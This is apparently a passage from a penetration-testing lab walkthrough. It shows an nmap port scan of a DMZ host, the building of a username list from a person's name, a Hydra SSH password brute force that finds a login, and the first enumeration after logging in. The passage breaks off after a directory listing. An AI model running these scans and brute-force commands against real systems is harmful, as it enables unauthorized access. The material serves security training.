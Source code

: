 ## 03. Scanning the External Device
Since only one device in this network is publicly accessible, we can give it a quick scan to see what ports we have available for remote access. 
```
th@ddeu$ nmap -sS -p 21-23,80,135,443,445,3389,5985,5986,8080 -T4 -oA dmz01_scan 10.129.39.174

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-16 12:25 CDT
Nmap scan report for 10.129.39.174
Host is up (0.012s latency).

PORT     STATE  SERVICE
21/tcp   closed ftp
22/tcp   open   ssh
23/tcp   closed telnet
80/tcp   closed http
135/tcp  closed msrpc
443/tcp  closed https
445/tcp  closed microsoft-ds
3389/tcp closed ms-wbt-server
5985/tcp closed wsman
5986/tcp closed wsmans
8080/tcp closed http-proxy

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```
## 04. Gaining Initial Access
From here we can see that SSH is open. Since we have a possible password but no username. We can create a list of possible usernames based on the name Betty Jayde using [Username-Anarchy](https://github.com/urbanadventurer/username-anarchy) and brute forcing the resulting usernames using [Hydra](https://www.kali.org/tools/hydra/)
```
th@ddeu$ git clone https://github.com/urbanadventurer/username-anarchy.git
th@ddeu$ cd username-anarchy
th@ddeu$ ./username-anarchy Betty Jade > /tmp/bjade.txt
th@ddeu$ hydra -L /tmp/bjade.txt -p 'Texas123!@#' ssh://10.129.39.174
--SNIP--
[22][ssh] host: 10.129.39.174   login: jbetty   password: Texas123!@#
--SNIP--
```
Now we that we have a valid username and password we can log into the machine to verify access. 
```
th@ddeu$ ssh jbetty@10.129.39.174
jbetty@DMZ01:~$ 
```
At this point we can see that we are on an Ubuntu 20.04 server. The user has no sudo privilges and if we do a list of the files available to this user we can see the following standard files
```
jbetty@DMZ01:~$ sudo -l
[sudo] password for jbetty: 
Sorry, user jbetty may not run sudo on DMZ01.

jbetty@DMZ01:~$ ll
total 32
drwxr-xr-x 4 jbetty jbetty 4096 Jun  2 08:17 ./
drwxr-xr-x 4 root   root   4096 May 30 11:35 ../
-rw-r--r-- 1 jbetty jbetty 2139 Jun  2 08:19 .bash_history
-rw-r--r-- 1 jbetty jbetty  220 Apr 29 13:20 .bash_logout
-rw-r--r-- 1 jbetty jbetty 3771 Apr 29 13:20 .bashrc
drwx------ 2 jbetty jbetty 4096 May 30 11:35 .cache/
drwxrwxr-x 3 jbetty jbetty 4096 May 30 11:35 .local/
-rw-r--r-- 1 jbetty jbetty  807 Apr 29 13:20 .profile
```